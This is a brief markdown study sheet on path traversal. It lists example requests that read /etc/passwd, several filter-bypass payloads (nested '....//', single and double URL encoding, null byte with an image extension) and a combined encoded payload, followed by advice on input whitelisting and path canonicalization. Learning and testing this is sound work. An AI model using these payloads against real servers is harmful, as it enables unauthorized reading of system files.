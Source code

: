 # Path traversal

## General info
- ` <img src="/loadImage?filename=218.png"> `
- An attacker can request the following URL to retrieve the /etc/passwd file from the server's filesystem
- ` https://insecure-website.com/loadImage?filename=../../../etc/passwd `
- On Windows, both ../ and ..\ are valid directory traversal sequences

## Bypass defences
- elimination (strip):  `../ ` -> `....// `
  - Test: try to change the orginal request `GET /image?filename=1.jpg` to `GET /image?filename=../1.jpg`
  - If the file is loaded the code strip `../`
- encode: ` %2e%2e%2f `
- double-encode: ` %252e%252e%252f `
- require to start with the expected base folder es. `/var/www/images` -> `filename=/var/www/images/../../../etc/passwd`
- require to end with an expected file extension es. `.png` -> `filename=../../../etc/passwd%00.png`
- others

## Suggestions
- Don't always trust error messages
  - GET /image?filename=/etc/passwd ---> "No such file"
    - Try to add null byte
    - Try to add null byte and extension ----> %00.png
- Combine the cases:
  - Example: ....//....//....//etc/passwd%00.jpg (strip, double-encode, null byte, whitelist exstension)
  - %252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252Fetc%252Fpasswd%252500%252Ejpg

## Defences
- Avoid passing user-supplied input to filesystem APIs
- Use two layers of defense to prevent attacks
  - Validate the user input before processing it. Ideally, compare the user input with a whitelist of permitted values. If that isn't possible, verify that the input contains only permitted content, such as alphanumeric characters only.
  - After validating the supplied input, append the input to the base directory and use a platform filesystem API to canonicalize the path. Verify that the canonicalized path starts with the expected base directory.
